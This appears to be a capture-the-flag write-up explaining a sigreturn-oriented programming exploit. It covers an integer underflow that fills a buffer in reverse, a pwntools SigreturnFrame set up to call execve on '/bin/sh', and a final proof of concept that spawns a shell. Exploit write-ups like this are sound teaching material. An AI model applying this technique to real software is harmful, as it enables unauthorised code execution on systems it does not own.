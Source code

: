 The code below will place the `0x3b` inside `frame.rax` which is a system call number for [int execve(const char *pathname, char *const argv[], char *const envp[]);](https://man7.org/linux/man-pages/man2/execve.2.html) and note that `frame.rip` is overwritten with a system call gadget `0x0000000000401114`.

`frame.rdi` has the value of `0x0000000000402001` because that is where our temporary `buffer` is stored after read. The trick is to quit using `""//bin/sh\x00""` because one of those slashes is for quitting and the other for our `/bin/sh` string, since there is no other location to store our `/bin/sh` string at a constant address that does not change. The `execve` requires a pointer to `/bin/sh` and that is the only way we can put `/bin/sh` inside the binary since that does not exist in the program already.

```python3
## Frame to call execve using SigreturnFrame for x86-64
frame = SigreturnFrame(arch="amd64", kernel="amd64")
frame.rax = 0x3b                # syscall number for execve
frame.rdi = 0x0000000000402001  # pointer to the .bss/data segment (/bin/sh 0x68732f2f6e69622f)
frame.rsi = 0x0                 # NULL
frame.rdx = 0x0                 # NULL
frame.rsp = 0xdeadbeef          # 0xdeadbeef for testing
frame.rip = 0x0000000000401114  # 0x0000000000401114: syscall;
```


Another tricky part to this challenge is that since the buffer overflow is from high to low addresses rather than the usual low to high addresses, we need to reverse the frame. This is normally not needed but since this is an int underflow that fills our buffer in reverse, we have to reverse our `frame` payload.

This can easily be done with the following:

```python
# Reverse the frame and convert to bytes
new_frame = list(frame.values())
new_frame.reverse()
send_buffer(flat(new_frame))
```


## Final PoC

In the final PoC, we used  `payload = "A" * (65496 - len(frame))` to minus the length of the frame. We then sent our `send_buffer(flat(new_frame))` reversed frame and then overwrote the return address with address `0x0000000000401199: mov eax, 0xf; nop; syscall;`. We then made sure we quit the program with `send_buffer("//bin/sh\x00")` and drop an interactive shell.


This will call `rt_sigreturn()` and pop values located at specific locations on the stack into the registers. Our registers will have the values that we put in our frame which will call `execve` giving us a shell.

```python
frame = SigreturnFrame(arch="amd64", kernel="amd64")
frame.rax = 0x3b                # syscall number for execve
frame.rdi = 0x0000000000402001  # pointer to the .bss/data segment (/bin/sh 0x68732f2f6e69622f)
frame.rsi = 0x0                 # NULL
frame.rdx = 0x0                 # NULL
frame.rsp = 0xdeadbeef          # 0xdeadbeef for testing
frame.rip = 0x0000000000401114  # 0x0000000000401114: syscall;
```
